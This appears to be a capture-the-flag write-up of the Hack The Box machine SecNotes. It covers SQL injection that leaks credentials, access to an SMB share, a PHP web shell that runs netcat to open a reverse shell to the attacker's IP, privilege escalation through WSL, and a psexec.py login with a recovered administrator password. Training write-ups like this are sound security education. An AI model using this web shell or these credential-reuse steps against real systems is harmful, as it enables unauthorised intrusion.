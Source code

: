 ```yaml
---
description: https://app.hackthebox.com/machines/151
---
```


# 🎶 SecNotes

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After the nmap scan, we see the web server is a login page:&#x20;

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I try and create an account and log in->

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We get access to a dashboard and a possible username

let's try unlogging and abuse this web app with SQLis

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

when we connect with the credentials it fills in an error, good news

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We try with some more SQLi patterns and end up having database infos leaked within the dashboard :

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>'OR 1 OR'</p></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find what seems to be credentials for an SMB share?

Other than the manual exploitation we could use psexec:

```
psexec.py tyler:'92g!mA8BGjOirkL%OG*&'@10.129.227.170
```

It did not work :

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So let's go manually with passwd **92g!mA8BGjOirkL%OG\*&**

```
smbclient \\\\10.129.227.170\\new-site -U tyler
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

now create a file called 'shell.php'

```
<?php system('nc.exe -e cmd.exe 10.10.14.94 9898') ?>
```

and then copy on your root directory netcat:

```
locate nc.exe
cp /usr/share/sqlninja/apps/nc.exe nc.exe
```

and on the smb share of tyler:

```
put shell.php
put nc.exe
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Using the `put` command to upload a reverse shell and your netcat executable to an SMB share on the target system, you're creating a foothold on the target system. Even if your initial access is lost, you can regain access through the uploaded tools and i'll be able to call netcat and so trigger my reverse shell to obtain a shell ->

So now i need to trigger my shell.php file, after some looking around i found where were stored the files:

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i simply request: [http://10.129.163.46:8808/shell.php](http://10.129.163.46:8808/shell.php)

and get a shell:

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and go and grab the flag:

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

For the elevation let's dive into subsystems:

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-windows-subsystem-for-linux-wsl" %}

first we saw that we needed to locate bash.exe, you can use a recursive search this way:

```
where /R c:\windows bash.exe
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

same for wsl.exe:

```
where /R c:\windows wsl.exe
```

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

quick explanation on why we're doing this:

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after trying to get a bash shell by triggering bash.exe, we get some useful infos:

<figure><img src="../../.gitbook/assets/image (21) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We are root but on a linux machine of secnotes, so not really what we are looking for

we are in a non tty, let's try to escape

for reminder, a non tty refers to a type of device or terminal that does not have interactive capabilities like a traditional teletypewriter or terminal.

Let's try to get a shell via a python import:

```
python -c "import pty;pty.spawn('/bin/bash')"
```

* `python`: This invokes the Python interpreter.
* `-c`: This option allows you to pass a command directly to Python for execution.
* `"import pty; pty.spawn('/bin/bash')"`: This is the Python code that gets executed.
  * `import pty`: This imports the `pty` module, which provides functions for controlling pseudo-terminals.
  * `pty.spawn('/bin/bash')`: This line spawns a new interactive shell (`/bin/bash`). When this line is executed, it effectively starts a new shell session within the current terminal session. The `pty.spawn()` function creates a new pseudo-terminal and executes the specified command (`/bin/bash`) within it. This results in a fully interactive shell prompt, allowing the user to execute commands and interact with the system as if they were using a normal terminal.

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys" %}

{% embed url="https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell" %}

now let's look what we have in the root folder:&#x20;

<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after looking through stuff we encounter:&#x20;

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

that's a quick and easy win, let's try some other stuff

Impacket Toolkit - [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

first, let's install impacket

```
psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.163.46
```

* `psexec.py`: This likely refers to a Python script named `psexec.py`. This script is likely designed to replicate the functionality of the original `PsExec` tool developed by Sysinternals, which allows for the execution of commands on remote Windows systems.
* `administrator:'u6!4ZwgwOM#^OBf#Nwnh'`: This part of the command specifies the username and password to authenticate to the target system. In this case, the username is `administrator` and the password appears to be `'u6!4ZwgwOM#^OBf#Nwnh'`. The password is enclosed in single quotes to ensure that special characters within it are properly interpreted.
* `@10.129.163.46`: This specifies the IP address or hostname of the target Windows system. The `psexec.py` script will attempt to connect to this system using the provided credentials and execute commands remotely.

<figure><img src="../../.gitbook/assets/image (25) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just go and fetch the file

<figure><img src="../../.gitbook/assets/image (26) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If A/V is blocking psexec, you can use smbexec or winexe

<figure><img src="../../.gitbook/assets/image (614).png" alt=""><figcaption></figcaption></figure>
